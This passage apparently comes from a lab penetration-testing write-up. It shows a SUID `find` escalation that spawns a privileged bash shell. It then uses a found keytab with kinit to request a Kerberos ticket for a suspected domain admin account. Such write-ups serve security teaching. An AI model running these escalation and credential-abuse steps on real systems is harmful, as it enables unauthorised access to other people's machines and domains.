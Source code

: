 <br/>

As shown, there is a keytab file in the path `/home/support@operations.atomic.site/adm_domain.keytab`

<br/>

----

## Privilege Escalation to support

Since a `find` with SUID is found, we can use it to escalate our privilege.


```
/var/lib/jenkins/find . -exec /bin/bash -p \;
```
![picture 48](images/b78c4c2786c205f2d766ec1e7335a01ac5dc7e42cdbd16ff7d4c82c649a9132f.png)  

As shown, we become the support user in the domain.

<br/>

---

## Requests using support keytab

In the previous section, we identified `/home/support@operations.atomic.site/adm_domain.keytab`. Deduced from the name, it is possible to be the `Domain Admin` keytab file (Domain: operations.atomic.site).

<br/>

With the keytab file, we can request for TGT:

```
kinit adm_domain@OPERATIONS.ATOMIC.SITE -k -t adm_domain.keytab
```
* Note that the `@` part should be in CAPITAL LETTERS.

![picture 49](images/6b57b5a935649c37c2e83a3124b4106837e2fc8be6cbad0194d6b4d513363d22.png)  


<br/>
